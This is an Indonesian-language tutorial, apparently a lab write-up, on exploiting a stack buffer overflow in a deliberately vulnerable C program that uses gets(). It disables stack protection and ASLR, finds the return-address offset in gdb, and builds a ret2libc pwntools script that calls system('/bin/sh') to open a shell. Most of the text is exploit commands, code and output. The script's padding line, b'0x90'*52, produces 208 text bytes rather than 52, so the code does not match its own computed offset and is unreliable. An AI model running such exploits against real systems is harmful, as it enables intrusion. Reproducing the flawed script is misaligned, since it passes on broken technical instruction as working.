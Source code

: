 [x] NO Canary ~ -fno-stack-protector
[x] NO PIE ~ -no-pie
[x] NX ~ tanpa -z execstack
[x] NO ASLR ~ echo 0 > /proc/sys/kernel/randomize_va_space

vuln_program.c

```c
#include<stdio.h>

void foo()
{
    char buffer[40];
    puts("give me your input :)\n");
    gets(buffer);
}

void main()
{
    foo();
}
```

kita kompile dengan cara seperti ini untuk supaya tidak ada perlindungan Canary dan PIE

```bash
gcc -g -m32 -fno-stack-protector -no-pie -o vuln32 vuln_program.c
```

setting disable untuk perlindungan ASLR pada sistem operasi linux

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

jalankan program vuln32 dengan gdb kemudian lakukan checksec

```bash
$gdb -q vuln32
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

```bash
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r
Starting program: /root/You_Tube/Stack_Buffer_Overflow/3/vuln32 
give me your input :)  

AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0xffffd638 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EBX: 0x41414641 ('AFAA')
ECX: 0xf7fb55c0 --> 0xfbad2288 
EDX: 0xf7fb689c --> 0x0 
ESI: 0xf7fb5000 --> 0x1d9d6c 
EDI: 0xf7fb5000 --> 0x1d9d6c 
EBP: 0x31414162 ('bAA1')
ESP: 0xffffd670 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EIP: 0x41474141 ('AAGA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41474141
[------------------------------------stack-------------------------------------]
0000| 0xffffd670 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0004| 0xffffd674 ("2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0xffffd678 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0012| 0xffffd67c ("A3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0016| 0xffffd680 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0020| 0xffffd684 ("AA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0xffffd688 ("AJAAfAA5AAKAAgAA6AAL")
0028| 0xffffd68c ("fAA5AAKAAgAA6AAL")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41474141 in ?? ()
gdb-peda$ pattern offset 0x41474141
1095188801 found at offset: 52
```

perintahnya menggunakan ldd vuln32

```bash
$ldd vuln32
linux-gate.so.1 (0xf7fd2000)
libc.so.6 => /lib32/libc.so.6 (0xf7ddb000)
/lib/ld-linux.so.2 (0xf7fd4000)
```
ketemu 0xf7ddb000

mencari alamat system dengan perintah readelf, cari alamat system@@GLIBC_2.0

```bash
$readelf -s /lib32/libc.so.6|grep system
   257: 00129d40   102 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   658: 0003e9e0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1525: 0003e9e0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

ketemu 0003e9e0 ditulis 0x3e9e0

mencari alamat /bin/sh dengan perintah strings

```bash
$strings -a -t x /lib32/libc.so.6 | grep /bin/sh
 17eaaa /bin/sh
```

ketemu 17eaaa ditulis 0x17eaaa

```python
#ldd vuln32
#libc.so.6 => /lib32/libc.so.6 -> 0xf7ddb000
#readelf -s /lib32/libc.so.6|grep system  -> 0x3e9e0
#strings -a -t x /lib32/libc.so.6 |grep /bin/sh -> 0x17eaaa
  
from pwn import *
p=process('./vuln32')
print(p.recv())

base_libc = 0xf7ddb000
padding = b'0x90'*52
system = p32(base_libc+0x3e9e0)
ret = p32(0x0)
binsh = p32(base_libc+0x17eaaa)

p.sendline(padding+system+ret+binsh)
print(p.clean())
p.interactive()
```

```bash
$python3 exploit-nx.py 
[+] Starting local process './vuln32': pid 12069
b'give me your input :)\n'
b'\n'
[*] Switching to interactive mode
$
```
